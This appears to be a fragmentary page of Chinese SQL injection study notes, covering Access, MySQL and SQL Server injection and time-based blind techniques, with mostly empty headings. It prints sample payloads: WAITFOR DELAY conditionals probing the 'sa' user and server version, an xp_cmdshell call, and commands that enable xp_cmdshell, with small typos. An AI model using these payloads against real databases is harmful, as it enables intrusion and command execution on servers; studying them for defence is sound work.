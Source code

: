 解决方案：SQL预编译

## **不同数据库的SQL注入**

### **Access的SQL注入**

Access 注入猜解过程

猜解表名

猜解列名

猜解字段值长度

ASCII 逐字解码法猜解字段值

 

ASP+Access：

 

### **MySQL的SQL注入**

### **SQLServer的SQL注入**

有趣的出错信息

Group By 与 Having 查询

爆表名与字段名

爆数据记录

## **基于不同方法的条件语句的使用**

### **基于时间**

基于 Web 应用响应时间上的差异

基于时间（SQLServer）

有管理员访问权限

IF (system_user = 'sa') WAITFOR DELAY '0:0:5' –-

IF (substring((select @@version), 25, 1) = 5) WARITFOR DELAY '0:5:15' –-

EXEC master..xp_cmdshell 'ping -n 5 127.0.0.1'

有管理员访问权限，没有启动xp_cmdshell,于 2005和 2008 版本

EXEC sp_config 'show advanced options', 1;

GO

RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;

2000版本
